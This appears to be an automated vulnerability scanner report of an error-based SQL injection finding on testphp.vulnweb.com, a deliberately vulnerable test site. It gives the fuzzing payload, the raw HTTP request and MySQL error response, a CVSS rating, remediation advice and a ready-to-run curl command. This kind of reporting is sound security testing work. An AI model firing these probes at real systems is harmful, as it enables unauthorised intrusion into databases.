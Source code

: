 ### Error based SQL Injection (sqli-fuzzing-a5ebca2164701f3742156c47c46d78c248776ac736d1e1942176fa598e4d6e5f:mysql) found on testphp.vulnweb.com

----
**Details**: **sqli-fuzzing-a5ebca2164701f3742156c47c46d78c248776ac736d1e1942176fa598e4d6e5f:mysql** matched at testphp.vulnweb.com

**Protocol**: HTTP

**Full URL**: http://testphp.vulnweb.com/AJAX/infocateg.php?id=<'>'!@#$%25&**())--&

**Timestamp**: Thu Jun 12 23:21:52 +0800 WITA 2025

**Template Information**

| Key | Value |
| --- | --- |
| Name | Error based SQL Injection |
| Authors | wahyuhadi |
| Tags | sqli, error, dast |
| Severity | critical |
| Description | Direct SQL Command Injection is a technique where an attacker creates or alters existing SQL commands to expose hidden data,<br>or to override valuable ones, or even to execute dangerous system level commands on the database host.<br>This is accomplished by the application taking user input and combining it with static parameters to build an SQL query .<br> |
| cvss-3.1 | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |
| cvss-3.1-link | https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |
| tech | sql |
| severtity | high (7.5) |

**Request**
```http
GET /AJAX/infocateg.php?id=<'>'!@ HTTP/1.1
Host: testphp.vulnweb.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Cookie: mycookie=3
Referer: http://testphp.vulnweb.com/AJAX/index.php


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Transfer-Encoding: chunked
Content-Type: text/xml;charset=UTF-8
Date: Thu, 12 Jun 2025 15:21:52 GMT
Server: nginx/1.19.0
X-Powered-By: PHP/5.6.40-38+ubuntu20.04.1+deb.sury.org+1

Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '=<'>'!@' at line 1
```
**Extracted results:**

- SQL syntax; check the manual that corresponds to your MySQL
- check the manual that corresponds to your MySQL server version

**Metadata:**

- path: <'>'!@#$%&**())--

**Fixing**

- Prepared statements ensure that user input is treated as data, not executable SQL code. This completely prevents SQL injection.
- Stored procedures execute SQL commands safely within the database, reducing the risk of injection when properly implemented.
- Never display database error messages to users.
- Ensure that the database user only has necessary privileges (e.g., no DROP, ALTER, EXECUTE permissions for web users).




**CURL command**
```sh
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.5' -H 'Connection: keep-alive' -H 'Cookie: mycookie=3' -H 'Host: testphp.vulnweb.com' -H 'Referer: http://testphp.vulnweb.com/AJAX/index.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' 'http://testphp.vulnweb.com/AJAX/infocateg.php?id=<'\\''>'\\''!@#$%25&**())--&'
```


----

Eagle Pulsar Team :  > From Home With Love